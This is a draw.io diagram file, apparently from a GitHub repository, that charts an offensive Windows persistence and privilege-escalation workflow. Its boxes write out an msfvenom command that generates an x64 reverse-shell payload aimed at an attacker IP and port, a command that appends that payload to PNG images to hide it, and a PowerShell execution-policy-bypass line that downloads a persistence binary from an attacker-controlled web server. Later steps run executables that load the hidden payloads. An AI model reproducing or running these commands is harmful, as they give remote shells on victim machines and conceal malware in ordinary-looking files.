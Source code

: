 <mxfile version="20.7.4" type="github">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="2827" dy="609" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="c0Sctn81WB5nrNk0CtNy-44" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="Escalate Privileges&lt;br&gt;to High IL" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="340" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="1110" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory&#xa;(9001.exe / 9002.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="9001.cpp&#xa;9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory&#xa;(9001.png / 9002.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.raw&#xa;9002.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Port (9001 / 9002)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-52" value="9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="230" width="880" height="180" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-15" value="9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="618" width="910" height="272" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-0" value="Execute 9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="470" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-0" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute 9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-0" target="P6aCfQ930mBBJoiv-hOj-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="202" width="120" height="50" as="geometry" />
        </mxCell>
